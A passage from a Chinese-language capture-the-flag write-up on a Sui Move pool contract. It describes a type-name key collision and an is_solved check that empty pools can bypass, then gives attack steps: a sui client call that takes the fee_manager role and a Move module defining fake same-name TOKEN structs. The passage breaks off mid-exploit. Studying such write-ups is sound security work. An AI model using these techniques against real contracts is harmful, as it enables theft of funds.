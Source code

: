 **问题**: 只使用结构体名称生成池子键值，不包含完整的类型路径。

**影响**: 可以通过创建同名的假代币来混淆池子操作。

### 漏洞3: is_solved条件可被绕过

**位置**: `is_solved`函数 (第246行)

```rust
public entry fun is_solved(pools: &mut Pools) {
    let sum = get_balance<TOKEN1>(pools) + get_balance<TOKEN2>(pools) + 
              get_balance<TOKEN3>(pools) + get_balance<TOKEN4>(pools);
    let fee_sum = get_total_fee<TOKEN1, TOKEN2>(pools) + get_total_fee<TOKEN3, TOKEN4>(pools);
    assert!(sum + fee_sum == 0, 0);
    // 发出Flag事件
}
```

**问题**: 如果创建空的池子，所有余额和手续费都为0，条件自然满足。

## 攻击策略

基于发现的漏洞，制定了以下攻击策略：

1. **利用权限漏洞**: 调用`set_fee_manager`将自己设置为fee_manager
2. **创建假代币结构体**: 利用键值生成漏洞，创建同名的假TOKEN结构体
3. **创建空池子**: 使用假代币创建空的池子，使余额和手续费都为0
4. **触发Flag**: 调用`is_solved`函数获得Flag

## 攻击实施

### 步骤1: 利用权限漏洞

```bash
sui client call --package 0xa4ed91928b7eb37e7bed0e8bea09dfcccb8a5ae41b908ebb222701c637294e1a \
  --module pool --function set_fee_manager \
  --args 0x2412efd0b085591054c9ea6432bce9a6f1a98dcd55400a64f913c1489e962001 \
         0x5284d0a3eb3c5eb84fdd7f27c7e60f486315e99d9f2826b6c35f0e8b0981c6fe \
  --gas-budget 10000000
```

**结果**: 成功成为fee_manager

### 步骤2: 部署攻击合约

创建包含假TOKEN结构体的攻击合约：

```rust
module exploit::attack {
    // 创建假的TOKEN结构体，名称与原始代币相同
    public struct TOKEN1 has drop {}
    public struct TOKEN2 has drop {}  
    public struct TOKEN3 has drop {}
    public struct TOKEN4 has drop {}

    fun init(_ctx: &mut TxContext) {
        // 空的初始化函数
    }
}
```

